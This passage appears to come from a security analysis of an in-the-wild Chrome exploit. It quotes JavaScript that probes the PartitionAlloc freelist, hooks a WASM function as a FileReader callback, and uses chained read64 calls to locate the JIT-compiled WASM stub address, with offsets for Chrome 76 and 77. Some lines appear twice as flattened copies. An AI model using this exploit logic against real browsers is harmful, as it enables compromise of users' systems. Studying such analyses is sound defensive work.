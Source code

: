 fileReader.readAsArrayBuffer(new Blob([]));
 
let fileReaderLoaderTestPtr = getPartitionPageFreeListHeadEntryBySlotSize(freelist, iirFilterFeedforwardAllocationPtr, fileReaderLoaderSize);
if (fileReaderLoaderPtr == fileReaderLoaderTestPtr)
	return;




1234567891011

let fileReader = new FileReader;let fileReaderLoaderSize = 0x140;let fileReaderLoaderPtr = getPartitionPageFreeListHeadEntryBySlotSize(freelist, iirFilterFeedforwardAllocationPtr, fileReaderLoaderSize);if (!fileReaderLoaderPtr) return; fileReader.readAsArrayBuffer(new Blob([])); let fileReaderLoaderTestPtr = getPartitionPageFreeListHeadEntryBySlotSize(freelist, iirFilterFeedforwardAllocationPtr, fileReaderLoaderSize);if (fileReaderLoaderPtr == fileReaderLoaderTestPtr) return;




The exploit obtains this address twice to find out if the FileReaderLoader object was created and if the exploit can continue execution. The exploit sets the exported WASM function to be a callback for a FileReader event (in this case, an onerror callback) and because the FileReader type is derived from EventTargetWithInlineData, it can be used to get the addresses of all its events and the address of the JIT compiled exported WASM function.





fileReader.onerror = wasmFuncA;
 
let fileReaderPtr = read64(freelist, fileReaderLoaderPtr + BigInt(0x10)) - BigInt(0x68);
 
let vectorPtr = read64(freelist, fileReaderPtr + BigInt(0x28));
let registeredEventListenerPtr = read64(freelist, vectorPtr);
let eventListenerPtr = read64(freelist, registeredEventListenerPtr);
let eventHandlerPtr = read64(freelist, eventListenerPtr + BigInt(0x8));
let jsFunctionObjPtr = read64(freelist, eventHandlerPtr + BigInt(0x8));
 
let jsFunctionPtr = read64(freelist, jsFunctionObjPtr) - BigInt(1);
let sharedFuncInfoPtr = read64(freelist, jsFunctionPtr + BigInt(0x18)) - BigInt(1);
let wasmExportedFunctionDataPtr = read64(freelist, sharedFuncInfoPtr + BigInt(0x8)) - BigInt(1);
let wasmInstancePtr = read64(freelist, wasmExportedFunctionDataPtr + BigInt(0x10)) - BigInt(1);
 
let stubAddrFieldOffset = undefined;
switch (majorVersion) {
	case 77:
    		stubAddrFieldOffset = BigInt(0x8) * BigInt(16);
	break;
	case 76:
    		stubAddrFieldOffset = BigInt(0x8) * BigInt(17);
	break
}
 
let stubAddr = read64(freelist, wasmInstancePtr + stubAddrFieldOffset);




1234567891011121314151617181920212223242526
